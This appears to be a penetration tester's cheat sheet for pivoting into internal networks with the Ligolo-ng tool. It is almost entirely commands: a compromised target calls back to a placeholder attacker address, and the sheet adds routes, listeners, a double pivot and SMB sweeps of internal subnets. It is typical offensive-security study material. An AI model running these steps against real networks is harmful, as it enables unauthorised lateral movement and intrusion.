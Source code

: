 ```yaml
---
tags:
  - AD
---
```

## LigoloNG
---
[https://github.com/Nicocha30/ligolo-ng](https://github.com/Nicocha30/ligolo-ng)

### **Single pivot**

**Attack host:**
```bash
sudo ip tuntap add user kali mode tun ligolo ; sudo ip link set ligolo up
```
```bash
./proxy -selfcert -laddr 0.0.0.0:443
```
add route to new subnet
```bash
sudo ip route add 172.16.139.0/24 dev ligolo
```
**Target:**
```
agent.exe -connect <attackIP>:443 -ignore-cert
```
**Attack host:**
select session
```
session
```
add listeners
```bash
listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
listener_add --addr 0.0.0.0:8081 --to 127.0.0.1:81
listener_add --addr 0.0.0.0:8082 --to 127.0.0.1:82
listener_add --addr 0.0.0.0:8083 --to 127.0.0.1:83
listener_add --addr 0.0.0.0:8084 --to 127.0.0.1:84
```
start tunnel
```bash
start
```
### **Double Pivot**
**Attack host:**
```bash
sudo ip tuntap add user kali mode tun double ; sudo ip link set double up
sudo ip tuntap add user kali mode tun ligolo ; sudo ip link set ligolo up
```
```
./proxy -selfcert -laddr 0.0.0.0:443
```
**Target:**
First pivot callback
```bash
agent.exe -connect <attackIP>:443 -ignore-cert
```
**Attack host:**
Add routes
```bash
sudo ip route add 172.16.139.0/24 dev ligolo
sudo ip route add 172.16.210.0/24 dev double
```
select session
```bash
session
```
add listener for second pivot
```bash
listener_add --addr 0.0.0.0:139 --to 127.0.0.1:443
```
add normal listeners
```bash
listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
listener_add --addr 0.0.0.0:8081 --to 127.0.0.1:81
listener_add --addr 0.0.0.0:8082 --to 127.0.0.1:82
listener_add --addr 0.0.0.0:8083 --to 127.0.0.1:83
listener_add --addr 0.0.0.0:8084 --to 127.0.0.1:84
```
start first tunnel
```bash
start
```
**Second target:**
Call back to first pivot host from second
```bash
agent.exe -connect <targetONE>:139 -ignore-cert
```
add listeners to second host
```bash
listener_add --addr 0.0.0.0:5050 --to 127.0.0.1:50
listener_add --addr 0.0.0.0:5051 --to 127.0.0.1:51
listener_add --addr 0.0.0.0:5052 --to 127.0.0.1:52
listener_add --addr 0.0.0.0:5053 --to 127.0.0.1:53
listener_add --addr 0.0.0.0:5054 --to 127.0.0.1:54
```
start second tunnell
```bash
start --tun double
```
**Verify access**
```bash
nxc smb 172.16.139.10/24 
nxc smb 172.16.210.0/24
```

## proxychains
---
